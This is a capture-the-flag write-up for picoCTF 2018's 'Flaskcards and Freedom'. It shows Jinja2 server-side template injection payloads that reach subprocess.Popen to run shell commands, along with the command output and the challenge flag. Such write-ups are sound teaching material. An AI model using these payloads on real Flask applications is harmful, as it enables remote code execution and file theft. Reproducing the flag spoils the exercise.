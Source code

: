 # Flaskcards and Freedom
Web Exploitation - 900 points

## Challenge 
> There seem to be a few more files stored on the flash card server but we can't login. Can you? http://2018shell2.picoctf.com:58184 (link)

## Hint
> There's more to the original vulnerability than meets the eye.

> Can you leverage the injection technique to get remote code execution?

> Sorry, but the database still reverts every 2 hours.


## Solution

Similar to [Flaskcards](../../Solved/Flaskcards), this is vulnerable to code injection from the "Create Card" page and viewing it in "List Cards".

Now looking at these rather interesting website, it is possible to start reading any file in the directory.

- https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
- https://twitter.com/_qll_/status/707714873774448640
- https://nvisium.com/blog/2015/12/07/injecting-flask.html

---

First, load all the accessible classes using this payload

	{{''.__class__.mro()[1].__subclasses__()}} 

We notice that the class subprocess.Popen() is in the list. Hence, we can use it to execute some shell commands!

Next, search through the array for the index of `<class 'subprocess.Popen'>`. In my case, it is index 471 and I verified it with this payload.

	{{''.__class__.mro()[1].__subclasses__()[471]}}

Now we can execute some commands with this payload such as `ls`

	{{''.__class__.mro()[1].__subclasses__()[471]('ls',shell=True).communicate()}}

However, it returns `None`, so we need to pipe the results back to python using `stdout=subprocess.PIPE`. 

---

Also note that we don't have access to subprocess module. I had to use integer value of `subprocess.PIPE` which is `-1` to get it working.

	{{''.__class__.mro()[1].__subclasses__()[471]('ls',shell=True, stdout=-1).communicate()}}

And behold, we see the contents

	Question:(b'app\nflag\nserver.py\nxinet_startup.sh\n', None)

---

Now, let's cat the flag

	{{''.__class__.mro()[1].__subclasses__()[471]('cat flag',shell=True, stdout=-1).communicate()}}

And we are done

	Question:(b'picoCTF{R_C_E_wont_let_me_be_04eedee8}', None)

## Flag

	picoCTF{R_C_E_wont_let_me_be_04eedee8}
